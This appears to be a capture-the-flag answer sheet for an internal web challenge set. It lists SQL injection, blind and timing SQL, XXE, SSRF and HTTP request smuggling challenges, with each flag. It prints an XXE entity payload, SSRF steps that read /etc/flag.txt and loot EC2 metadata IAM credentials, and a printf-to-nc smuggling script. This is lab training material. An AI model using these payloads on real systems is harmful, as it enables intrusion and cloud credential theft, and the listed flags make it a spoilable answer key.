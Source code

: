- simple SQL injection
- flag.py
- flag: companyctf{th4t_w45_s0m3_v2ry_b4s1c_stuff}

## SQL2

- simple Blind sql attack
- flag.py
- flag: companyctf{g1v3_m3_b4ck_my_3y35_1_m_bl1nd}

## SQL3

- Blind sql timing attack
- flag.py
- flag: companyctf{t1m1ng_4tt4ck_4r3_fun_as_h3ll}

## XXE

- XML External Entity exploit
- "<?xml version='1.0' encoding='UTF-8'?><!DOCTYPE root [<!ENTITY test SYSTEM 'http://localhost/generate.php'>]><input><firstName>&test;</firstName><lastName>bich</lastName></input>"
- flag: companyctf{th4t_w45_50m3_4w350m3_j0b_th4t_y0u_d1d_th3r3}

## SSRF

- SSRF attack via php webhook 
- Catch one of many possible flags:
  * Simply add file:///etc/flag.txt in the WebHook Form. If the docker container is running on EC2 the metadata service will also be available and ready for being looted :)
  * Loot the Metadata Service if it runs on EC2 => search for http://169.254.169.254/latest/meta-data/iam/security-credentals/{Stuff that lays around there} => with those credentials access to the AWS account is possible and hidden flags f.e. on S3 can be captured
- flag: companyctf{w3lcom3_t0_th3_jungl3}


## HTTP_REQUEST_SMUGGLING_nginx

- HTTP request smuggling 
- Exploit it by running the following script in your bash 
  ```bash
  printf 'GET /a HTTP/1.1\r\n'\
  'Host: localhost\r\n'\
  'Content-Length: 56\r\n'\
  '\r\n'\
  'GET /_hidden/index.html HTTP/1.1\r\n'\
  'Host: notlocalhost\r\n'\
  '\r\n'\
  |nc 127.0.0.1 9015
  ```
  
- flag: companyctf{publ1c_s3rv1c3_15_mY_m0770-@l_C@p0n3}
